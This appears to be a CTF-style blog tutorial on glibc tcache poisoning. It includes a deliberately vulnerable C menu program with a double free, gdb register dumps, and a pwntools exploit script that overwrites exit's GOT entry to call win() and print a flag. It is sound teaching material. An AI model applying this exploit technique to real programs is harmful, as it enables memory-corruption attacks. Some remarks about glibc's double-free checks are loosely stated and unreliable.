 ```yaml
---
layout: post
title:  "Tcache Poisoning [heap exploitation]"
date:   2019-09-09 03:59:00
categories: experience
---
```



# Tcache Poisoning
what is tcache poisoning ? 
In glibc-2.26, TCache (per-thread cache), a new feature, was introduced in malloc.
and tcache poisoning is a technique to poison Tcache feature in glibc-2.26. for example from how2heap by shellpish team 

	This file demonstrates a simple tcache poisoning attack by tricking malloc into
	returning a pointer to an arbitrary location (in this case, the stack).
	The attack is very similar to fastbin corruption attack.

	The address we want malloc() to return is 0x7ffedaf11040.
	Allocating 1 buffer.
	malloc(128): 0x55a2b964b260
	Freeing the buffer...
	Now the tcache list has [ 0x55a2b964b260 ].
	We overwrite the first 8 bytes (fd/next pointer) of the data at 0x55a2b964b260
	to point to the location to control (0x7ffedaf11040).
	1st malloc(128): 0x55a2b964b260
	Now the tcache list has [ 0x7ffedaf11040 ].
	2nd malloc(128): 0x7ffedaf11040
	We got the control

for another example we will try to exploit this simple program, by using tcache poisoning:

{% highlight c %}
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

#define SZ_BLOCK 200
#define SZ_HEAP  10
#define SZ_FLAG 100

char a[100];
u_int *(buf);

void win(){
	char buf[SZ_FLAG];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL){
		puts("[!] error code 901");
		exit(0);
	}
	fgets(buf,SZ_FLAG,f);
	puts(buf);
}

void welcome(){
puts("     __                      __                           _                      _              ");
puts("    / /_ _____ ____ _ _____ / /_   ___     ____   ____   (_)_____ ____   ____   (_)____   ____ _");
puts("   / __// ___// __ `// ___// __ \\ / _ \\   / __ \\ / __ \\ / // ___// __ \\ / __ \\ / // __ \\ / __ `/");
puts("  / /_ / /__ / /_/ // /__ / / / //  __/  / /_/ // /_/ // /(__  )/ /_/ // / / // // / / // /_/ / ");
puts("  \\__/ \\___/ \\__,_/ \\___//_/ /_/ \\___/  / .___/ \\____//_//____/ \\____//_/ /_//_//_/ /_/ \\__, /  ");
puts("       HackerClass Gunadarma @2019     /_/        author: arsalan (tripoloski)         /____/   ");
}

void menu(){
	puts("+---------------------+");
	puts("|         Menu        |");
	puts("+---------------------+");
	puts("| 1. allocate memory  |");
	puts("| 2. freeing memory   |");
	puts("| 3. exit             |");
	puts("+---------------------+");
	printf("| select [1-3] : ");
}

void init(){
	setvbuf(stdout, 0 , 2 , 0);
	setvbuf(stdin, 0 , 2 , 0);
}

void create_memory(){
	int size;
	printf("[?] size : ");
	//read(0,size , sizeof(size));
	scanf("%d" , &size);
	printf("[?] data : ");
	if (size <= 0x88){
		buf = malloc(size);
		read(0,buf , size);
	}
	puts("[+] memory allocated!");
}

void release_memory(){
	free(buf);
}

void main(){
	init();
	char buf[4];
	welcome();
	while(1){
		menu();
		read(0 , buf , sizeof(buf));
		switch(atoi(buf)){
			case 1:
				create_memory();
				break;
			case 2:
				release_memory();
				break;
			case 3:
				puts("[+] exiting...");
				exit(0);
				break;
			default:
				puts("[!] invalid choice error code 1902");
				break;
		}
	}
}
{% endhighlight %}


you can find this challenge on my repository [here](https://github.com/tripoloski1337/learn-to-pwn/tree/master/tcache_poisoning) in this case we have to allocating memory and double freeing , since there's no checks for double free on glibc-2.26+. so we can directly do double free, after that we can allocate memory and fill it with whatever we want. at this point we already controll the rdx register. 

	malloc(0x100)
	free(0)
	free(0)
	malloc(0x100) <------ control rdi
	malloc(0x100) <------ just a padding
	malloc(0x100) <------ another control 

### how can it be ?
if you look into gdb there's something interesting at address **<malloc+407>**

     → 0x7ffff7a7b207 <malloc+407>     mov    rdi, QWORD PTR [rdx]

this instruction will mov rdx value to rdi. it's mean it will move whatever value is from rdx to rdi register. and suddenly our rdx is filled with our input before

    $rax   : 0x5
    $rbx   : 0x64
    $rcx   : 0x0000000000602010  →  0x0000000000000000
    $rdx   : 0x4141414141414141 ("AAAAAAAA"?) <----- our input data from the seccond malloc
    $rsp   : 0x00007fffffffe320  →  0x0000000000400dd1  →  "+---------------------+"
    $rbp   : 0xffffffffffffffb0
    $rsi   : 0x0000000000602038  →  0x0000000000000000
    $rdi   : 0x64
    $rip   : 0x00007ffff7a7b207  →  <malloc+407> mov rdi, QWORD PTR [rdx]
    $r8    : 0xb
    $r9    : 0x0
    $r10   : 0x00007ffff7b82cc0  →  0x0002000200020002
    $r11   : 0x246
    $r12   : 0x0000000000400740  →  <_start+0> xor ebp, ebp
    $r13   : 0x00007fffffffe460  →  0x0000000000000001
    $r14   : 0x0
    $r15   : 0x0

in this case we can doing GOT overwrite from exit() function to win() function 

{% highlight c %}
	case 3:
		puts("[+] exiting...");
		exit(0); <-- our goal to change it to win()
		break;
{% endhighlight %}

to make it more clear and reliable i made a python script to exploit this binary 

{%highlight python%}

from pwn import *
r = process("./tcache_poisoning")

def alloc(size,data ):
	r.sendlineafter("| select [1-3] :","1")
	r.sendlineafter("[?] size :",str(size))
	r.sendlineafter("[?] data :",data)
	log.info("allocating")

def free():
	r.sendlineafter("| select [1-3] :","2")
	log.info("freeing")

win_plt = 0x0000000000400827
exit_got = 0x000000601348
#gdb.attach(r)
alloc(0x28,"A"*8)

free()
free()

alloc(0x28,p64(exit_got))
alloc(0x28,p8(0x00))
alloc(0x28,p64(win_plt)) 

r.interactive()

{% endhighlight %}

after running this python script we can select option 3 to trigger exit(). and exit() is not the real exit() function anymore it was win() function, since we doing GOT overwrite 

	[+] Starting local process './tcache_poisoning': pid 28800
	[*] allocating
	[*] allocating
	[*] freeing
	[*] freeing
	[*] allocating
	[*] allocating
	[*] allocating
	[*] Switching to interactive mode
	 [+] memory allocated!
	+---------------------+
	|         Menu        |
	+---------------------+
	| 1. allocate memory  |
	| 2. freeing memory   |
	| 3. exit             |
	+---------------------+
	| select [1-3] : $ 3
	[+] exiting...
	ctf{y0u_must_b3_a_pwnerrrr!!!!!}

as you can see there's string ***ctf{y0u_must_b3_a_pwnerrrr!!!!!}***. it mean our win() function has been called and give us data from file flag.txt, you can see what win() actually do here
{% highlight c %}
void win(){
	char buf[SZ_FLAG];
	FILE *f = fopen("flag.txt","r");
	if (f == NULL){
		puts("[!] error code 901");
		exit(0);
	}
	fgets(buf,SZ_FLAG,f);
	puts(buf);
}
{% endhighlight %}